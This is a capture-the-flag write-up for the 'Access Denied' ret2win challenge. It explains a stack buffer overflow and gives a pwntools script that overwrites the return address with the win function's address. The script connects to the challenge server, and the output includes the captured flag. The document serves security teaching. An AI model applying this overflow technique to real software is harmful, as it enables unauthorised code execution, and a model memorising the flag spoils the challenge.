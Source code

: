 # Access Denied: ret2win

## Question 

Huh, jump, jump, jump to win.

server: nc 34.134.85.196 1337

[ret2win](ret2win)

## Solution

The program suffers a ``buffer overflow`` and has a ``win`` function. No real surprise here, spray the stack with p32(e.sym['win']) to overwrite the return address with the address of the ``win`` function

```python
from pwn import *

e = ELF('./ret2win')
#p=process(e.path)
p = remote('34.134.85.196',1337)
payload = p32(e.sym['win'])*100
p.sendline(payload)

p.interactive()

```

Running our script yields the flag 

```
$ python3 pwn-ret2win.py BIN=./ret2win
[*] '/root/workspace/access_denied/ret2win/ret2win'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 34.134.85.196 on port 1337: Done
[*] Switching to interactive mode
\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04\x16\x04
accessdenied{fl0w_fl0w_0v3rfl0w_g3t_w1n_07372581}
accessdenied{fl0w_fl0w_0v3rfl0w_g3t_w1n_07372581}
accessdenied{fl0w_fl0w_0v3rfl0w_g3t_w1n_07372581}
accessdenied{fl0w_fl0w_0v3rfl0w_g3t_w1n_07372581}
```
